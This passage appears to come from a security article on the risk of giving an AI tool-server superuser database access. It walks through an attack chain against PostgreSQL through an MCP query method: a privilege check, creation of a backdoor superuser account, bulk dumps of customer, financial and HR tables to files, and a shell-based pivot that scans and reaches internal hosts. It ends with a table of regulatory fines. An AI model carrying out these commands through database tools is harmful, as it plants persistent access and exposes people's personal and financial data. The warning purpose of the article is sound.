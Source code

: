 ### Step 3: Privilege Assessment (immediate)
```json
{
  "jsonrpc": "2.0",
  "method": "database/query", 
  "params": {
    "sql": "SELECT current_user, usesuper FROM pg_user WHERE usename = current_user;"
  }
}
// Response: {"current_user": "db_admin", "usesuper": true}
```

### Step 4: Full Database Takeover (2 minutes)
```sql
-- Create persistent access
CREATE USER persistent_backdoor WITH SUPERUSER PASSWORD 'never_found';

-- Map all databases
SELECT datname FROM pg_database WHERE datallowconn = true;

-- Access each database as SUPERUSER
\c customers;
COPY (SELECT * FROM customer_pii) TO '/tmp/customers.csv';
\c financial;  
COPY (SELECT * FROM transactions) TO '/tmp/money.csv';
\c hr;
COPY (SELECT * FROM employee_records) TO '/tmp/employees.csv';
```

### Step 5: Lateral Movement via Database (5 minutes)
```sql
-- Find other systems via database connections
SELECT * FROM pg_stat_activity;

-- Use database as pivot point
SELECT shell('nmap -sn 10.0.0.0/24'); -- Scan internal network
SELECT shell('ssh user@internal-server'); -- Use found keys
```

## The Compliance Nightmare Matrix

| Regulation | Violation | Fine Range |
|------------|-----------|------------|
| **PCI-DSS** | Cardholder data accessible via MCP | $5K-$100K/month |
| **HIPAA** | PHI exposed through admin access | $100-$50K per record |
| **GDPR** | Personal data, no access controls | 4% annual revenue |
| **SOX** | Financial data integrity compromised | Criminal charges |
| **CCPA** | Consumer data breach via MCP | $2,500-$7,500 per record |
